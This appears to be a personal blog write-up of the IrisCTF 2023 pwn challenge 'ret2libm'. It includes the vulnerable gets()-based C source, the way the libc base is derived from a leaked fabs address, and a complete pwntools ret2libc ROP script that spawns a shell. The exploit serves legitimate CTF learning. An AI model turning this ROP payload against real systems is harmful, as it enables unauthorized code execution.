

ret2libm - IrisCTF 2023
ret2libm - IrisCTF 2023

Overview⌗
ret2libm was the 2nd most solved pwn challenge of IrisCTF 2023, written by sera.
Description:
I need to make a pwn? Let’s go with that standard warmup rop thing… what was it… ret2libm?
We are provided with a zip file containing a binary, source code, libc, libm, and Makefile.
#include <math.h>
#include <stdio.h>
// gcc -fno-stack-protector -lm
int main(int argc, char* argv) {
setvbuf(stdin, NULL, _IONBF, 0);
setvbuf(stdout, NULL, _IONBF, 0);
char yours[8];
printf("Check out my pecs: %p\n", fabs);
printf("How about yours? ");
gets(yours);
printf("Let's see how they stack up.");
return 0;
}
chal: chal.c
gcc -fno-stack-protector chal.c -o chal -lm
The gets() function is clearly a classic buffer overflow vulnerability as it reads in any amount of bytes regardless of what the buffer yours[8] can actually hold. Therefore we can overwrite the return pointer rip and control what code it executes next.
There also isn’t a canary we need to bypass.
RELRO: Full RELRO
Stack: No canary found
NX: NX enabled
PIE: PIE enabled
Using pwndbg we find the offset to be 16 bytes until we overwrite the return pointer.
Exploitation⌗
The next step is to do a classic ret2libc. However, there is ASLR that we need to bypass, as the libc library is loaded into a different address each time. The program just so happens to give us a leak from the libm library which should allow us to calculate the libc base address.
printf("Check out my pecs: %p\n", fabs);
I assumed the fabs address would be a constant offset from the libc base address, so after finding that offset we should be able to calculate it.
libc base shown here is 0x7f0f11c0b000, the fabs leak was 0x7f0f11e2e4d0, so calculating fabs - libc = 0x7f0f11e2e4d0 - 0x7f0f11c0b000 = 0x2234d0 we get an offset of 0x2234d0. So to calculate the libc base address from the fabs leak, we simply do libc.address = fabs - 0x2234d0
WAIT! - The libm and libc binary used by our linux system is probably different to the ones given! We need to patch the binary to use the provided libraries libc-2.27.so and libm-2.27.so.
pwninit is a popular tool for this, however, it only links the libc file - we need to link both libc and libm. Therefore we will use patchelf (which pwninit uses anyways).
Making a copy of the binary chal_patched and running patchelf --add-needed libm-2.27.so chal_patched and patchelf --add-needed libc-2.27.so chal_patched we have linked the binary to use those libraries instead of our system ones!If we didn’t do so, our payload may work on our system, but not the remote as they are using different libraries with different addresses and sizes.
Now that we’ve linked the correct libraries, we need to recalculate the offset 0x7ffff7a66cf0 - 0x7ffff7644000 = 0x422cf0.
Okay lets setup a pwntools script to automate this!
from pwn import *
filepath = "./chal_patched"
elf = context.binary = ELF(filepath)
libc = ELF("libc-2.27.so")
p = process(filepath)
input() # wait for gdb debug (gdb -p <PID>)
offset = 16
libc_offset = 0x7ffff7a66cf0 - 0x7ffff7644000
p.recvuntil(b"Check out my pecs: ")
fabs_addr = int(p.recv(14), 16)
libc.address = fabs_addr - libc_offset
print(f"{hex(libc.address) = }")
We can reaffirm that the address is correct by using gdb -p <PID> to attach to the process, and check if the calculated address is correct.
Now we have the libc address we can do a standard ret2libc. I will not go in-depth on this as it’s covered a lot, check out this amazing resource if you want to fully grasp it.
Using ROPgadget to find gadgets in libc (I chose libc instead of the binary as we already had its base address, didn’t want to do another calculation), we find the required pop rdi; ret gadget as per 64 bit calling conventions to pass the /bin/sh string into system(), and another ret gadget for stack alignment.
Now we simply return to libc!
from pwn import *
filepath = "./chal_patched"
elf = context.binary = ELF(filepath)
libc = ELF("libc-2.27.so")
p = process(filepath)
input() # wait for gdb debug
offset = 16
libc_offset = 0x7ffff7a66cf0 - 0x7ffff7644000
p.recvuntil(b"Check out my pecs: ")
fabs_addr = int(p.recv(14), 16)
libc.address = fabs_addr - libc_offset
print(f"{hex(libc.address) = }")
pop_rdi = libc.address + 0x000000000002164f
ret = libc.address + 0x00000000000008aa
system = libc.sym['system']
binsh = next(libc.search(b'/bin/sh'))
payload = flat(
b"A" * offset,
ret, # stack alignment
pop_rdi,
binsh,
system,
0x0
)
p.sendline(payload)
p.interactive()
Running this we indeed get a shell!
Now all we have to do is to connect to remote and do the same … right? Apparently not. Running the script gives us an EOF, meaning the program crashed or ended.
This is the last thing we want to see - our exploit working locally, but not on remote! When this happened I first thought I didn’t link the libraries correctly, but after relinking and additional testing that didn’t seem to be the case. Having no other idea what it could be, I opened a ticket on the discord server.
After explaining my issue, the organiser sera released a Dockerfile that allowed the remote enviroment to be built on your own computer! This meant we could now debug on an enviroment identical to the remote instance, and potentially find out the issue.
After doing so, my payload unfortunetly still worked without modifications, which was really weird as the enviroment was supposedly identical to the remote instance. sera mentioned it could be that the libc was in fact not a constant offset of fabs function from libm on the remote instance, which meant the libc.address would be wrong.
sera verified that the scripts work on their docker as well, so decided to award me the flag anyways regardless of it not working on remote.
First time I’ve just been handed the flag by organisers, even in other competitions (cough Pecan CTF) where challenges were literally broken and we had the solution, organisers wouldn’t award points, so huge thanks to sera for the help and flag!
The intended solution was to use a one-gadget in the libc and a libc address already in rax to (i assume) calculate the offset.
Conclusion⌗
Overall this was a pretty fun challenge despite the hours of trying to figure out why it wouldn’t work on remote, I only started learning pwn recently and was glad theres a CTF with pwn challenges I could solve.
In the end we (PissedEmu) placed 11th on the leaderboard which I’m happy about!
Additional thanks to the organisers for hosting IrisCTF 2023, I’ll be looking forward to next year’s event!
Also, please DM me on Discord at TheSavageTeddy#7458 if there are issues or things I missed in this blog post as it is my first.